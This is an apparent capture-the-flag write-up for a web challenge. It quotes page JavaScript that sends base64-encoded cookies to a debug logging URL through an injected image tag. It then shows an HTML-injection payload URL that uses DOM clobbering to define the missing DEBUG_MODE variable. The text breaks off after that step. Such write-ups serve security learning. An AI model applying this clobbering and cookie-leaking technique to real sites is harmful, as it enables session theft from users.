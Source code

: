 
```js
window.onload = () => {
    const imgSrc = document.getElementById('user-image').src
    document.getElementById('user-image-info').innerText = imgSrc

    if (DEBUG_MODE) {
        // In debug mode, send the image url to our debug endpoint for logging purposes.
        // We'd normally use fetch() but our CSP won't allow that so use an <img> instead.
        document.getElementById('body').insertAdjacentHTML('beforeend', `<img src="${DEBUG_LOGGING_URL}?auth=${btoa(document.cookie)}&image=${btoa(imgSrc)}">`)
    }
}
```


* This Javascript Loads with we Visit, `/personalize?image=<url>`

<img src="https://i.imgur.com/PMybUaS.png">


## Exploit:


```js
if (DEBUG_MODE) {
        // In debug mode, send the image url to our debug endpoint for logging purposes.
        // We'd normally use fetch() but our CSP won't allow that so use an <img> instead.
        document.getElementById('body').insertAdjacentHTML('beforeend', `<img src="${DEBUG_LOGGING_URL}?auth=${btoa(document.cookie)}&image=${btoa(imgSrc)}">`)
    }
```

* In the Above Code, `DEBUG_MODE` is Not Defined. 

<img src="https://i.imgur.com/jSALZmW.png">

* CSP is Set to defualt-src: 'self'. So, the Javascript files hosted in the server itself only work.

* So, Now we Have HTML injection and a Undedined variable.
* In Order to Exploit this, we need to  Overwrite the Undefined Variable `DEBUG_MODE` and Injecting our own value into `DEBUG_MODE`. 

* By Using  `DEBUG_MODE` as ID, We can create a variable `DEBUG_MODE`.

Payload:
```
https://wsc-2022-web-2-bvel4oasra-uc.a.run.app/personalize?image=https://google.com/"><a id="DEBUG_MODE">

```
<img src="https://i.imgur.com/naI2HH8.png">

* We successfully Defined `DEBUG_MODE`, which is Before Undefined. Now, the Above error says that, `DEBUG_LOGGING_URL` is Undefined. 
